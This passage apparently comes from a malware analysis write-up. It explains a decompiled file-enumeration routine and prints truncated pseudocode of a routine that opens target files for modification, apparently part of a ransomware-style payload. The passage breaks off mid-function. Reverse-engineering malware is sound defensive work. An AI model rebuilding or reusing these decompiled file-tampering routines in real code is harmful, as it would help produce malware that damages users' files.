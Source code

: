 -   **Calling function `a2`**: The function `a2` is called with the file path, among other parameters.
    
-   **Handling the return from `a2`**: Depending on the return of `a2`, the loop may prematurely end, make a recursive call to `sub_405D61` (if the file is a directory and `a5` is positive), or simply increment the counter `v13`.
    
-   **Closing the File Search**: After the end of the loop, `FindClose` is called to close the file search handle.

## Modification of file process

```cpp
int __usercall sub_408782@<eax>(_DWORD *a1@<eax>, _BYTE *a2, LPCWSTR lpFileName, LPCWSTR a4, char a5)
{
  int v6; // eax
  _DWORD *v7; // ebx
  int v8; // eax
  int v9; // edi
  HANDLE FileW; // eax
  int v11; // ebx
  int v13; // [esp-Ch] [ebp-2A4h]
  _BYTE *v14; // [esp-8h] [ebp-2A0h]
  int v15; // [esp-4h] [ebp-29Ch]
  char v16[296]; // [esp+10h] [ebp-288h] BYREF
  char v17[300]; // [esp+138h] [ebp-160h] BYREF
  int v18; // [esp+264h] [ebp-34h]
  _BYTE *v19; // [esp+268h] [ebp-30h]
  _DWORD *v20; // [esp+26Ch] [ebp-2Ch]
  DWORD NumberOfBytesWritten; // [esp+270h] [ebp-28h] BYREF
  int v22; // [esp+274h] [ebp-24h]
  int v23; // [esp+278h] [ebp-20h]
  DWORD dwFlagsAndAttributes; // [esp+27Ch] [ebp-1Ch]
  LARGE_INTEGER liDistanceToMove; // [esp+280h] [ebp-18h] BYREF
  DWORD nNumberOfBytesToRead; // [esp+288h] [ebp-10h]
  DWORD nNumberOfBytesToWrite; // [esp+28Ch] [ebp-Ch] BYREF
  HANDLE hFile; // [esp+290h] [ebp-8h]
  HANDLE hObject; // [esp+294h] [ebp-4h]

  v23 = 0;
  nNumberOfBytesToRead = a1[9] - (a1[9] & 0xF);
  v19 = (_BYTE *)sub_408601(lpFileName);
  v6 = sub_4090C6(v19);
  v7 = (_DWORD *)a1[8];
  v18 = 2 * v6 + 2;
  v20 = v7 + 8;
  if ( ((2 * (_BYTE)v6 + 34) & 0xF) != 0 )
    v8 = 32 - ((2 * (_BYTE)v6 + 34) & 0xF) + 2 * v6 + 2 + 16;
  else
    v8 = 2 * v6 + 34;
  v22 = v8;
  v9 = (int)v7 + v8;
  hObject = (HANDLE)-1;
  dwFlagsAndAttributes = GetFileAttributesW(lpFileName);
  if ( nNumberOfBytesToRead >= v9 - a1[8] + 178 && GetFileAttributesW(a4) == -1 )
  {
    FileW = CreateFileW(lpFileName, 0xC0000000, 0, 0, 3u, 0, 0);
    hFile = FileW;
    if ( FileW != (HANDLE)-1 )
    {
      liDistanceToMove.QuadPart = 0i64;
      if ( SetFilePointerEx(FileW, 0i64, &liDistanceToMove, 2u) )
      {
```